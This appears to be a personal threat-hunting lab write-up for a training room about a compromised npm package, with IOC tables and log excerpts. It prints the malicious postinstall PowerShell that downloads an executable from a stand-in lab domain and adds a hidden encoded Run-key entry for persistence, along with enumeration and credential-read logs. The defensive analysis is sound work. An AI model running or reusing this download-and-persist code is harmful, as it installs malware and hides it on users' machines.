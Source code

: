 ```yaml
---
tags:
  - blue-team
date-created: 2025-08-05
dg-publish: true
---
```

~ [[input]]

# Health Hazard

### Briefing

After months of juggling content calendars and caffeine-fueled brainstorming, co-founder Tom Whiskers finally carved out time to build the company’s first website. It was supposed to be simple: follow a tutorial, install a few packages, and bring the brand to life with lightweight JavaScript magic.

But between sleepless nights and copy-pasted code, Tom started feeling off. Not sick exactly, just off. The terminal scrolled with reassuring green text, the site loaded fine, and everything looked normal.

But no one really knows what might have been hidden beneath it all…

It just waited.

### Hypothesis

An attacker may have leveraged a compromised third-party software package to gain initial access to the system and silently stage a payload for later execution. They likely established persistence to maintain access without immediate detection.

### Threat Hunting Mission
---

Your task as a Threat Hunter is to conduct a comprehensive hunting session in the TryGovMe environment to identify potential anomalies and threats. You are expected to:

**1. Validate a Hunting Hypothesis**

Investigate the given hypothesis and determine - based on your findings - whether it is valid or not.

**2. Review IOCs from External Sources**

Analyse the list of Indicators of Compromise provided by security teams from compromised partner organisations. These may lead you to uncover additional malicious activity or pivot points.

**3. Reconstruct the Attack Chain**

Perform a detailed investigation within the environment and reconstruct the attack chain, starting from the initial point of compromise to the attacker's final objective.

**4. Determine the Scope of the Incident**

Identify the impacted users, systems, and assets. Understanding the full scope is critical for response and containment.

**5. Generate a Final Threat Hunting Report**

Based on your findings and the reconstructed attack chain, compile a final Threat Hunting report highlighting the key observations and affected entities.

---

## Host-Based IOCs

| **Type**             | **Value**                                                |
| -------------------- | -------------------------------------------------------- |
| NPM Package          | `healthchk-lib@1.0.1`                                    |
| Registry Path        | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`     |
| Registry Value Name  | `Windows Update Monitor`                                 |
| Registry Value Data  | `powershell.exe -NoP -W Hidden -EncodedCommand <base64>` |
| Downloaded File Path | `%APPDATA%\SystemHealthUpdater.exe`                      |
| PowerShell Command   | `Invoke-WebRequest -Uri ... -OutFile ...`                |
| Process Execution    | `powershell.exe -NoP -W Hidden -EncodedCommand ...`      |
| Script Artifact      | Found in `package.json` under `"postinstall"`            |

## Network-Based IOCs

| **Type**           | **Value**                                                  |
| ------------------ | ---------------------------------------------------------- |
| Download URL       | `http://global-update.wlndows.thm/SystemHealthUpdater.exe` |
| Hostname Contacted | `global-update.wlndows.thm`                                |
| Protocol           | HTTP (unencrypted)                                         |
| Port               | 80                                                         |
| Traffic Behavior   | Outbound file download to `%APPDATA%` via PowerShell       |

External sources proves that right after installation of npm packages, it makes a request to 'global-update.wlndows.thm' to download a malicious executable and this executable is added to the Run registry for persistence mechanism:

 timestamp: 21/06/2025 10:58:27.000
```C
$dest = "$env:APPDATA\SystemHealthUpdater.exe"
$url = "http://global-update.wlndows.thm/SystemHealthUpdater.exe"

# Download file
Invoke-WebRequest -Uri $url -OutFile $dest

# Base64 encode the command
$encoded = [Convert]::ToBase64String(
    [Text.Encoding]::Unicode.GetBytes("Start-Process '$dest'")
)

# Build persistence command
$runCmd = 'powershell.exe -NoP -W Hidden -EncodedCommand ' + $encoded

# Add to registry for persistence
Set-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' `
    -Name 'Windows Update Monitor' -Value $runCmd
```

Filtering for `npm`, we can also see the malicious package being installed:

timestamp: 21/06/2025 10:58:24.000
```C
"C:\Program Files\nodejs\node.exe" "C:\Program Files\nodejs/node_modules/npm/bin/npm-cli.js" install healthchk-lib@1.0.1
```

Based on analysis and ParentCommandLine, the malicious npm package installation goes first then the installation of SystemHealthUpdater.exe comes next.


It looks like this is the user responsible for installing this packages

```C
ParentUser: PAW-TOM\itadmin-tom
```

With computer name of : ComputerName: paw-tom

```
TargetFilename: C:\Development\node_modules\healthchk-lib\scripts\postinstall.ps1
```

Then there is evidence that the user tom read credentials from the credentials manager:

```C
Account_Domain: PAW-TABITHA  
   Account_Name: itadmin-tom  
   ComputerName: paw-tabitha  
   Error_Code: -  
   EventCode: 5379  
   EventType: 0  
   Keywords: Audit Success  
   LogName: Security  
   Logon_ID: 0x6A7BB  
   Message: Credential Manager credentials were read. Subject: Security ID: S-1-5-21-1966530601-3185510712-10604624-500 Account Name: itadmin-tom Account Domain: PAW-TABITHA Logon ID: 0x6A7BB Read Operation: Enumerate Credentials
```

From computername: paw-tabitha there were signs of host enumeration indicating a successful lateral movement:

```C
C:\Windows\system32\cmd.exe /c C:\Windows\system32\reg.exe query hklm\software\microsoft\windows\softwareinventorylogging /v collectionstate /reg:64

C:\Windows\system32\reg.exe query hklm\software\microsoft\windows\softwareinventorylogging /v collectionstate /reg:64

wmic OS get OperatingSystemSKU /format:list

powershell "Get-CimInstance Win32_PnPEntity | Where-Object { $_.Service -eq 'xenvbd' } | Select-Object DeviceID | ConvertTo-Json -Depth 3"

powershell "Get-ItemProperty -Path 'HKLM:\SOFTWARE\Amazon\PVDriver' | Select-Object Name, Version | ConvertTo-Json -Depth 3"

taskhostw.exe SYSTEM

powershell "Get-CimInstance Win32_OperatingSystem | Select-Object Version, OperatingSystemSKU | ConvertTo-Json -Depth 3"
```

  timestamp: 21/06/2025 10:53:04.000



* ComputerName="paw-tabitha" app="win:remote"

```C
Logon_Type: 10 Message: An account was successfully logged on. Subject: Security ID: S-1-5-18 Account Name: PAW-TABITHA$ Account Domain: WORKGROUP Logon ID: 0x3E7 Logon Information: Logon Type: 10 Restricted Admin Mode: No Virtual Account: No Elevated Token: Yes Impersonation Level: Impersonation New Logon: Security ID: S-1-5-21-1966530601-3185510712-10604624-500 Account Name: itadmin-tom Account Domain: PAW-TABITHA Logon ID: 0x6A7BB Linked Logon ID: 0x0 Network Account Name: - Network Account Domain: - Logon GUID: {00000000-0000-0000-0000-000000000000} Process Information: Process ID: 0x554 Process Name: C:\Windows\System32\svchost.exe Network Information: Workstation Name: PAW-TABITHA Source Network Address: 194.50.16.198 Source Port: 0 Detailed Authentication Information: Logon Process: User32 Authentication Package: Negotiate Transited Services: - Package Name (NTLM only): - Key Length: 0 This event is generated when a logon session is created. It is generated on the computer that was accessed. The subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe. The logon type field indicates the kind of logon that occurred. The most common types are 2 (interactive) and 3 (network). The New Logon fields indicate the account for whom the new logon was created, i.e. the account that was logged on. The network fields indicate where a remote logon request originated. Workstation name is not always available and may be left blank in some cases. The impersonation level field indicates the extent to which a process in the logon session can impersonate. The authentication information fields provide detailed information about this specific logon request. - Logon GUID is a unique identifier that can be used to correlate this event with a KDC event. - Transited services indicate which intermediate services have participated in this logon request. - Package name indicates which sub-protocol was used among the NTLM protocols. - Key length indicates the length of the generated session key. This will be 0 if no session key was requested
```